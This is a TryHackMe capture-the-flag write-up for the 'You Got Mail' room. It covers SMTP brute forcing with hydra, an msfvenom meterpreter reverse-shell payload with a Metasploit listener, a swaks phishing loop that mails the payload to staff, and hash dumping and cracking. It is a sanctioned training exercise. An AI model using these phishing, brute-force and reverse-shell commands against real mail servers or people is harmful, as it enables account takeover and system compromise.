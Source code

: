 ```yaml
---
date: 2025-02-09T14:59:41-06:00
# description: ""
image: "/images/THM-YouGotMail/YGM.png"
showTableOfContents: true
tags: ["TryHackMe"]
categories: ["Writeups"]
title: "THM: You Got Mail"
type: "post"
---
```


* Platform: TryHackMe
* Link: [You Got Mail](https://tryhackme.com/room/yougotmail)
* Level: Medium
* OS: Windows
---

This room focuses on a phishing attack. After collecting an email list, we use `cewl` to create a customized password list. Hydra, successfully recovers the password for one of the email accounts. With `swaks`, we send a phishing email that results in a reverse shell on the target system. From there, we retrieve the password for a user account as well as the admin password for `hMailServer`.

## Scanning

```
nmap -T4 -n -sC -sV -Pn -p- {TARGET_IP}
```

**Results**

```shell           
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-10 17:28 CST
Warning: 10.10.16.179 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.16.179
Host is up (0.18s latency).
Not shown: 65504 closed tcp ports (conn-refused)
PORT      STATE    SERVICE       VERSION
25/tcp    open     smtp          hMailServer smtpd
| smtp-commands: BRICK-MAIL, SIZE 20480000, AUTH LOGIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY

110/tcp   open     pop3          hMailServer pop3d
|_pop3-capabilities: USER UIDL TOP

135/tcp   open     msrpc         Microsoft Windows RPC

139/tcp   open     netbios-ssn   Microsoft Windows netbios-ssn

143/tcp   open     imap          hMailServer imapd
|_imap-capabilities: CAPABILITY IDLE QUOTA RIGHTS=texkA0001 CHILDREN NAMESPACE completed IMAP4 ACL IMAP4rev1 OK SORT

445/tcp   open     microsoft-ds?

587/tcp   open     smtp          hMailServer smtpd
| smtp-commands: BRICK-MAIL, SIZE 20480000, AUTH LOGIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY

3389/tcp  open     ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=BRICK-MAIL
| Not valid before: 2025-02-09T21:23:09
|_Not valid after:  2025-08-11T21:23:09
| rdp-ntlm-info: 
|   Target_Name: BRICK-MAIL
|   NetBIOS_Domain_Name: BRICK-MAIL
|   NetBIOS_Computer_Name: BRICK-MAIL
|   DNS_Domain_Name: BRICK-MAIL
|   DNS_Computer_Name: BRICK-MAIL
|   Product_Version: 10.0.17763
|_  System_Time: 2025-02-10T23:43:35+00:00
|_ssl-date: 2025-02-10T23:43:42+00:00; 0s from scanner time.

4349/tcp  filtered fsportmap
4750/tcp  filtered ssad

5985/tcp  open     http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0

17854/tcp filtered unknown
18527/tcp filtered unknown
22815/tcp filtered unknown
24814/tcp filtered unknown
30513/tcp filtered unknown

47001/tcp open     http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found

47010/tcp filtered unknown

49664/tcp open     msrpc         Microsoft Windows RPC
49665/tcp open     msrpc         Microsoft Windows RPC
49666/tcp open     msrpc         Microsoft Windows RPC
49667/tcp open     msrpc         Microsoft Windows RPC
49668/tcp open     msrpc         Microsoft Windows RPC
49669/tcp open     msrpc         Microsoft Windows RPC
49671/tcp open     msrpc         Microsoft Windows RPC
49674/tcp open     msrpc         Microsoft Windows RPC

50388/tcp filtered unknown
51348/tcp filtered unknown
53546/tcp filtered unknown
62352/tcp filtered unknown
64819/tcp filtered unknown
Service Info: Host: BRICK-MAIL; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-02-10T23:43:34
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 947.53 seconds
```

Nmap finds some default Windows services (SMB and MSRPC), some email services (SMTP and POP3), and a web server (we were given `https://brownbrick.co/` as part of our scope).

## Enumeration

At `https://brownbrick.co/` we find a static website.

![target website](/images/THM-YouGotMail/YGM_website.png)

Since we were told to only do passive reconnaissance on `https://brownbrick.co/` there is no point in trying directory bruteforcing or subdomain enumeration.

On the "Our Team" page at `https://brownbrick.co/menu.html` we can make a list of emails.

![email list](/images/THM-YouGotMail/emails_list.png)

```
oaurelius@brownbrick.co
tchikondi@brownbrick.co
wrohit@brownbrick.co
pcathrine@brownbrick.co
lhedvig@brownbrick.co
fstamatis@brownbrick.co
```

We can send some data at `https://brownbrick.co/reservation.html?` but nothing seems exploitable.

We can also send information at `https://brownbrick.co/contact.html` but we get told that the email server isn't responding.

![No response from the email server](/images/THM-YouGotMail/server_no_response.png)

Let's create a custom password list with `cewl`.

```
cewl --lowercase https://brownbrick.co/ > pwds.txt
```

![custom password list with cewl](/images/THM-YouGotMail/custom_pwds_list.png)

Using hydra we run a brute force attack with the generated passwords against the emails.

```
hydra -L emails.txt -P pwds.txt {TARGET_IP} smtp -s 587 
```

> The ports used by SMTP have different purposes. Port 587 is used to send emails from clients to mail servers (SMTP Submission) while port 25 is used for server-to-server email transmission (SMTP relay).

We find a match for `lhedvig@brownbrick.co:bricks`.

![hydra SMTP brute force attack](/images/THM-YouGotMail/hydra_smtp.png)

We can test the connection to a specific mailbox through POP3 using TELNET, but it turns out to be empty.

```
telnet {TARGET_IP} 110
USER lhedvig@brownbrick.co
PASS bricks
```

![Mailbox access via telnet](/images/THM-YouGotMail/telnet_check.png)

## User flag

We have a valid email address and some additional ones. Let's try to send some emails with a malicious attachment.

* We create a malicious exe file with msfvenom to use as an attachment.

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=443 -f exe > payload.exe
```

* We setup a listener in Metasploit.

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST YOUR_IP
set LPORT PORT_NUMBER
run
```

We can send an email to all the other email addresses using [swaks](https://github.com/jetmore/swaks).

```shell
for email in oaurelius@brownbrick.co tchikondi@brownbrick.co wrohit@brownbrick.co pcathrine@brownbrick.co fstamatis@brownbrick.co; do
    swaks --to $email --from lhedvig@brownbrick.co \
    --server 10.10.16.179 --port 25 --auth LOGIN \
    --auth-user lhedvig@brownbrick.co --auth-password bricks \
    --header "Subject: Urgent Security Update" \
    --body "Please review the attachment" \
    --attach @payload.exe
done
```

![Emails sent via swaks](/images/THM-YouGotMail/swaks_send_emails.png)

We get a meterpreter shell as `wrohit` and can read the user flag.

![user flag](/images/THM-YouGotMail/flag_txt.png)

With `net localgroup` we notice that this user is part of the `Administrators` group among many others.

![group memberships](/images/THM-YouGotMail/group_memberships.png)

### wrohit password recovered

Since we have elevated privileges, in our meterpreter shell we use `hashdump` to dump the user password hashes.

![hashdump command](/images/THM-YouGotMail/hashdump.png)

On [CrackStation](https://crackstation.net/) we recover the password of `wrohit`.

![wrohit password](/images/THM-YouGotMail/wrohit_pwd.png)

## hMailServer Administrator password

The password hash of the `hMailServer Administrator Dashboard` is in `C:\Program Files (x86)\hMailServer\Bin\hMailServer.INI`.

![hMailServer password hash](/images/THM-YouGotMail/admin_pwd.png)

We can also crack it on [CrackStation](https://crackstation.net/).

![hMailServer admin password](/images/THM-YouGotMail/cracked_admin_pwd.png)








